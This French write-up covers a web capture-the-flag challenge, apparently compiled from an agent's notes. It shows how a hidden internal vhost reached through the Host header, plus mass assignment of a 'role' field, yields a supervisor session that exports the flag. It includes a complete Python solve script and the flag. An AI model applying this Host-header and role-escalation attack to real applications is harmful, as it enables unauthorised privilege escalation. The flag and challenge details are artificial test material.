



# Writeup : chronos-switchboard

Catégorie : web

Date de résolution : 2026-11-07

Technique principale : Host-based virtual host routing; mass assignment in session role

Outils observés : curl

Cible : w01.ctf.chronos-security.ro:38560

## Présentation

Ce document est construit à partir de la mémoire CTF partagée et des artefacts conservés dans /root/ctf/chronos-switchboard. Les étapes ci-dessous reprennent uniquement les faits observés. Les captures sont réalisées sur les fichiers locaux, sans rejouer une action distante ou destructive.

## Analyse et raisonnement

### Contexte

# switchboard :  #9122

1. Le board public expose `/api/lines` et le hostname interne `exch-ctl.vjod.internal` dans son JS.
2. Le même endpoint route vers le controller via l’en-tête `Host`.
3. Sa page d’overview documente `POST /auth`, `GET /operators` et `GET /export/trunk-key`.
4. `/auth` accepte un champ `username` et retourne un cookie de session signé.
5. Le handler fait une mass assignment du champ `role` fourni par le client.
6. `POST /auth` avec `{"username":"EX-01","role":"supervisor"}` crée une session supervisor.
7. Le cookie `ctl_sid` est ensuite envoyé à `/export/trunk-key`.
8. Le contrôleur renvoie la clé courante `KTK-2026-10-B`.
9. CTFd a confirmé la soumission avec `status: correct`.
10. Flag: `CSCTF{2kEs9AukvGJVmOBkF0VDFR4S}`.

### Exploitation

Host: exch-ctl.vjod.internal; POST /auth {username:EX-01,role:supervisor}; GET /export/trunk-key

### Pièges

Le hostname controller est caché en base64 dans le JS public; requêtes doivent garder Host interne

### Notes locales conservées

# switchboard (#9122)

1. Instance attribuée: `http://w01.ctf.chronos-security.ro:38560`.
2. `/static/switchboard.js` base64-décode le vhost controller `exch-ctl.vjod.internal`.
3. Host routing: requests avec `Host: exch-ctl.vjod.internal` atteignent le controller sur le port de l'instance.
4. Page controller documente `POST /auth` (username), `GET /operators`, `GET /export/trunk-key` (supervisor).
5. Vuln: mass assignment dans `/auth`; `{"username":"EX-01","role":"supervisor"}` émet une session `ctl_sid` de rôle supervisor.
6. GET `/export/trunk-key` avec cette session rend la clé AES-256-GCM key_id `KTK-2026-10-B`, contenant `CSCTF{2kEs9AukvGJVmOBkF0VDFR4S}`.
7. Soumission CTFd #9122: `status=correct`.

## Journal
8. 2026-11-07T13:55:49Z unknown : Mass assignment role=supervisor, export de clé vérifié; CTFd correct.

## Commandes utiles

Les commandes suivantes consultent les preuves locales et sont sans effet de bord :

```bash
cd /root/ctf/chronos-switchboard
file notes.md solve.py 2>/dev/null
sed -n '1,180p' notes.md 2>/dev/null
sed -n '1,120p' solve.py 2>/dev/null
sed -n '1,10p' flags.txt 2>/dev/null
```

## Script de résolution complet

Le script conservé sous `solve.py` est reproduit ci-dessous sans modification :

```python
#!/usr/bin/env python3
"""Abuse role mass assignment on the assigned VJOD exchange instance."""
import requests

BASE = "http://w01.ctf.chronos-security.ro:38560"
HEADERS = {"Host": "exch-ctl.vjod.internal"}
s = requests.Session()
r = s.post(f"{BASE}/auth", headers=HEADERS,
           json={"username": "EX-01", "role": "supervisor"})
r.raise_for_status()
print("auth:", r.text)
r = s.get(f"{BASE}/export/trunk-key", headers=HEADERS)
r.raise_for_status()
print("export:", r.text)
```

## Captures du terminal

Les captures utilisent le terminal natif xterm disponible sur l’environnement, avec le prompt réel `root@vmi3694110`, le dossier courant du challenge et une géométrie identique. Elles montrent successivement l’analyse locale, le script ou les preuves de résolution, puis le flag conservé.







## Validation et flag

La mémoire partagée indique une validation CTFd correcte ou déjà validée.

Flag obtenu : `CSCTF{2kEs9AukvGJVmOBkF0VDFR4S}`

## Conclusion

La résolution repose sur la faiblesse indiquée dans la technique principale, puis sur la vérification locale du résultat conservé. Le flag final ci-dessus est copié depuis la preuve locale réellement présente.
